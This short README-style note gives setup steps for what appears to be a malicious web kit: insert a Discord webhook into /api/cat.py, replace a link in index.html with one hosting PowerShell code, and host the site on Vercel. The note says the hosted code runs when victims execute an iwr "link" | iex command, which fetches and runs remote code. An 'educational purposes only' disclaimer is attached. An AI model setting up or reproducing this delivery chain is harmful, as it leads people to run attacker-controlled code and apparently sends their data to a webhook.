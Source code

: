# Replace the webhook in /api/cat.py with your discord webhook 



# in index.html replace anything that says "http://extratools.mooo.com/" with your own link 
(the link hosted must have powershell code in it for when they run iwr "yourlink" | iex in powershell it executes something, not making a tutorial as this is for educational purposes only)


# host using vercel
